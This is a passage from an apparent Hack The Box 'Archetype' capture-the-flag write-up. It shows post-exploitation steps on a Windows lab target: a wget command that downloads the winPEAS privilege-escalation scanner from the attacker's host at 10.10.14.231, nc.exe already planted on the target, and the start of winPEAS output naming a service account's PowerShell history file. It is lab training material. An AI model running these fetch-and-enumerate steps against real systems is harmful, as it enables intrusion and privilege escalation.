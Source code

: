 ```
/usr/share/kali-menu/applications/kali-winpeas.desktop
/usr/share/peass/winpeas
/usr/share/peass/winpeas/winPEAS.bat
/usr/share/peass/winpeas/winPEAS.ps1
/usr/share/peass/winpeas/winPEASany.exe
/usr/share/peass/winpeas/winPEASany_ofs.exe
/usr/share/peass/winpeas/winPEASx64.exe
/usr/share/peass/winpeas/winPEASx64_ofs.exe
/usr/share/peass/winpeas/winPEASx86.exe
/usr/share/peass/winpeas/winPEASx86_ofs.exe

┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 2/Archetype]
└─$ cp /usr/share/peass/winpeas/winPEASx64.exe .  
```

Now we can host again a server with [Python](../../../../3%20-%20Tags/Programming%20Languages/Python.md) in the same folder and download it from the target, we need to switch to PowerShell because cmd.exe doesn’t have `wget` :

```powershell
PS C:\Users\Public> wget http://10.10.14.231/winPEASx64.exe -outfile winPEASx64.exe
wget http://10.10.14.231/winPEASx64.exe -outfile winPEASx64.exe

PS C:\Users\Public> dir
dir


    Directory: C:\Users\Public


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-r---        1/19/2020  10:39 PM                Documents                                                             
d-r---        9/15/2018  12:12 AM                Downloads                                                             
d-r---        9/15/2018  12:12 AM                Music                                                                 
d-r---        9/15/2018  12:12 AM                Pictures                                                              
d-r---        9/15/2018  12:12 AM                Videos                                                                
-a----         8/1/2025  12:21 PM          59392 nc.exe                                                                
-a----         8/1/2025  12:40 PM       10155520 winPEASx64.exe         
```

Now we can run it :

```
PS C:\Users\Public> ./winPEASx64.exe

����������͹ PowerShell Settings
    PowerShell v2 Version: 2.0
    PowerShell v5 Version: 5.1.17763.1
    PowerShell Core Version: 
    Transcription Settings: 
    Module Logging Settings: 
    Scriptblock Logging Settings: 
    PS history file: C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    PS history size: 79B
    
```